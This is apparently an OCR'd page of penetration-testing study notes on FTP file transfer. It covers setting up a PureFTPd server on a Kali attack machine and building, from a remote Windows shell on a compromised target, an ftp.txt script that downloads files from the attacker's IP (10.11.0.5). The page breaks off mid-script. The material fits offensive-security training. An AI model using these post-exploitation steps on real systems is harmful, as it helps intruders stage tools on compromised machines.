 o	USE FTP

#### FTP TRANSFERRING

ftp ftp.microsoft.com

use get or put

#### UPLOADING FILES WITH FTP

If you get access on the target and FTP is installed as a service then you might be able to setup FTP on the local attack 

station and get files to the target. 

apt-get update && apt-get install pure-ftpd

we first need to create a new user for PureFTPd.

groupadd ftpgroup

useradd -g ftpgroup -d /dev/null -s /etc ftpuser

pure-pw useradd offsec -u ftpuser -d /ftphome

pure-pw mkdb

cd /etc/pure-ftpd/auth/

ln -s ../conf/PureDB 60pdb

mkdir -p /ftphome

chown -R ftpuser:ftpgroup /ftphome/

/etc/init.d/pure-ftpd restart

We then run the script and provide a password for the offsec when prompted:

root@kali:~# chmod 755 setup-ftp

root@kali:~# ./setup-ftp

Password:

Enter it again:

Restarting ftp server

With our FTP server configured, we can now paste the following commands into a remote Windows shell and download files over FTP 

non-interactively.

From target machine run commands below

C:\Users\offsec>echo open 10.11.0.5 21> ftp.txt

C:\Users\offsec>echo USER offsec>> ftp.txt

C:\Users\offsec>echo ftp>> ftp.txt

C:\Users\offsec>echo bin >> ftp.txt
